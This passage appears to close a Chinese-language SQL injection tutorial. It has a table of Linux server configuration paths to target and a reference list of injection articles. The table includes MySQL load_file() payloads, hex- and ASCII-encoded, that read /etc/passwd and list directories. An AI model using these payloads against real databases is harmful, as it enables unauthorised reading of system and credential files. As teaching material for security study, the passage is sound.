 | /usr/local/app/php5/lib/php.ini | PHP相关设置 |
| /usr/local/app/apache2/conf/extra/httpd-vhosts.conf | 虚拟网站设置 |
| /etc/httpd/conf/httpd.conf | 查看linux APACHE虚拟主机配置文件 |
| /usr/local/apche/conf/httpd.conf | 查看linux APACHE虚拟主机配置文件 |
| /usr/local/resin-3.0.22/conf/resin.conf | 针对3.0.22的RESIN配置文件查看 |
| /usr/local/resin-pro-3.0.22/conf/resin.conf | 针对3.0.22的RESIN配置文件查看 |
| /usr/local/app/apache2/conf/extra/httpd-vhosts.conf | Apache虚拟主机配置 |
| /etc/httpd/conf/httpd.conf | 查看linux APACHE虚拟主机配置文件 |
| /usr/local/apche/conf /httpd.conf | 查看linux APACHE虚拟主机配置文件 |
| /usr/local/resin-3.0.22/conf/resin.conf | 针对3.0.22的RESIN配置文件查看 |
| /usr/local/resin-pro-3.0.22/conf/resin.conf | 同上 |
| /usr/local/app/apache2/conf/extra/httpd-vhosts.conf | Apache虚拟主机查看 |
| /etc/sysconfig/iptables | 查看防火墙策略 |
| load\_file\(char\(47\)\) | 可以列出FreeBSD,Sunos系统根目录 |
| replace\(load\_file\(0×2F6574632F706173737764\),0×3c,0×20\) | 查看/etc/passwd（16进制编码了） |
| replace\(load\_file\(char\(47,101,116,99,47,112,97,115,115,119,100\)\),char\(60\),char\(32\)\) | 查看/etc/passwd（Ascii编码 |



## 参考资料

1. 《Web安全攻防 渗透测试实战指南》
2. 《PHP WEB 安全开发实战》
3. 《SQL注入攻击与防御第2版》
4. [  Mysql报错注入原理分析\(count\(\)、rand\(\)、group by\)](https://www.2cto.com/article/201604/498394.html)
5. [盲注的讲解](https://www.cnblogs.com/cany/p/10747248.html)
6. \_\_[BIGINT Overflow Error Based SQL Injection](https://osandamalith.com/2015/07/08/bigint-overflow-error-based-sql-injection/)
7. [mysql 延时注入新思路](https://xz.aliyun.com/t/2288)
8. [pwnhub time injection带来的新思路](https://blog.csdn.net/qq_27446553/article/details/79944827)
9. [一种新型SQL时间盲注攻击探索](https://zhuanlan.zhihu.com/p/35245598)
10. [MySQL时间盲注五种延时方法 \(PWNHUB 非预期解\)](https://www.cdxy.me/?p=789)
11. [简单sql注入学到的延时盲注新式攻击](https://www.cnblogs.com/Mrsm1th/p/8718744.html)
12. [ SQL注入 堆叠注入（Stack Injection）](https://www.jianshu.com/p/c50ced83414d)
13. [Stacked Queries](http://www.sqlinjection.net/stacked-queries/)
14. [宽字符注入详解与实战](https://www.cnblogs.com/bmjoker/p/9134830.html)
15. [mysql load\_file在数据库注入中使用](https://www.cnblogs.com/blacksunny/p/8060028.html)

